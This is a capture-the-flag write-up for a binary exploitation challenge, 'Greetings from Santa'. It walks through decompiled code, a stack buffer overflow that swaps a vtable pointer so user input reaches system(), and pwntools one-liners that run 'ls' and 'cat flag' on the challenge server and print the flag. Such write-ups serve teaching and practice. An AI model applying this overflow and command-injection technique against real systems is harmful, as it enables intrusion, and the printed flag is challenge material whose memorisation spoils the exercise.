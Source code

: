 # Greetings from Santa
Pwn

## Challenge 

	chall

	Server: nc 199.247.6.180 10003

	Author: littlewho

## Solution

	$ nc 199.247.6.180 10003
	Greetings from Santa! Wanna talk? hi

Decompile in Hopper... This is the corresponding function

	0804886b         db         0x79  ; DATA XREF=sub_8048640+139
	0804886c         db  0x00 ; '.'

	int sub_8048640() {
	    var_C = 0x804888c;
	    eax = printf("Greetings from Santa! Wanna talk? ");
	    eax = sub_8048760();
	    eax = fgets(&var_4C, 0x200, stdin);
	    if ((var_4C & 0xff) == (*0x804886b & 0xff)) {
	            var_C = 0x804888c;
	            eax = sub_8048703(&var_C);
	            esp = (esp - 0x10) + 0x10;
	            eax = 0x0;
	    }
	    else {
	            eax = 0x1;
	    }
	    esp = var_4 + 0xfffffffc;
	    return eax;
	}

So from the above, we see that after "Wanna talk?" is printed, we need to answer "y" (0x79 in ASCII)
	
	$ nc 199.247.6.180 10003
	Greetings from Santa! Wanna talk? y
	What is your name? ^C

Now, we go into another function asking for name

	int sub_8048703(int arg0) {
	    printf("What is your name? ");
	    fgets(&var_6C, 0x64, *stdin);
	    //*(int8_t *)(ebp + (strlen(&var_6C) - 0x1) + 0xffffff94) = 0x0;
	    var_6C[strlen(&var_6C) - 0x1] = 0x0; // set last byte to null
	    eax = (**arg0)(arg0, &var_6C);
	    return eax;
	}

And that's it...

	$ nc 199.247.6.180 10003
	Greetings from Santa! Wanna talk? y
	What is your name? hi
	Hohoho! Hello, hi!

So I assume the vulnerability is in the inputs.

---

### Understanding the vulnerability

In the decompiled code, we see something interesting

	// Global
	struct vtable_804888c_type g4 = {
    	.e0 = function_804878a
	};
	struct vtable_8048898_type g5 = {
	    .e0 = function_8048772
	};

	// Address range: 0x8048772 - 0x8048789
	// From class:    CommandExecutor
	// Type:          virtual member function
	int32_t function_8048772(char * command) {
	    // 0x8048772
	    return system(command);
	}

	// Address range: 0x804878a - 0x80487a6
	// From class:    Greeter
	// Type:          virtual member function
	int32_t function_804878a(char * a1) {
	    // 0x804878a
	    return printf("Hohoho! Hello, %s!\n", a1);
	}

And then in the running code, we notice that `g4` is passed to `function_8048703` and it is called before returning as `a1`;

	int32_t function_8048636(int32_t a1) {
	    // 0x8048636
	    alarm(60);
	    setvbuf(g6, NULL, 2, 0);
	    setvbuf(g7, NULL, 2, 0);
	    setvbuf((struct _IO_FILE *)g8, NULL, 2, 0);
	    int32_t v1 = (int32_t)&g4; // bp-20
	    printf("Greetings from Santa! Wanna talk? ");
	    function_8048760();
	    int32_t str = 0; // bp-84
	    fgets((char *)&str, 512, g7);
	    int32_t result;
	    if (str % 256 == 121) {
	        // 0x80486e0
	        function_8048703(&v1);
	        result = 0;
	        // branch -> 0x80486fb
	    } else {
	        result = 1;
	    }
	    // 0x80486fb
	    return result;
	}

	// Address range: 0x8048703 - 0x8048760
	int32_t function_8048703(int32_t * a1) {
	    // 0x8048703
	    printf("What is your name? ");
	    int32_t str = 0; // bp-112
	    fgets((char *)&str, 100, g7);
	    *(char *)(strlen((char *)&str) - 109 + g2) = 0;
	    return *(int32_t *)*a1;
	}

So in essence, we need to override `g4` address with `g5`

---

### Form the payload

From RetDec decompiler, we get the address of `g5` as `0x8048898`.

Now, we form the payload, a simple buffer overflow to override the address.

Fuzz for offset size

	$ python -c "from pwn import *; print 'y' + cyclic(300)" | strace ./chall
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61617161} ---
	+++ killed by SIGSEGV +++
	Segmentation fault

	$ pwn cyclic -c 0x61617161
	63


Note, that the param passed to the `system()` function is from the 2nd input. Hence, try out with `ls` command


	$ python -c "from pwn import *; print 'y' + cyclic(63) + p32(0x8048898); print 'ls'"
	| nc 199.247.6.180 10003
	Greetings from Santa! Wanna talk? What is your name? chall
	flag
	redir.sh

### Found flag!

	$ python -c "from pwn import *; print 'y' + cyclic(63) + p32(0x8048898); print 'cat flag'"
	| nc 199.247.6.180 10003
	Greetings from Santa! Wanna talk? What is your name? 
	X-MAS{6r3371n65_fr0m_5y573m_700}

## Flag

	X-MAS{6r3371n65_fr0m_5y573m_700}

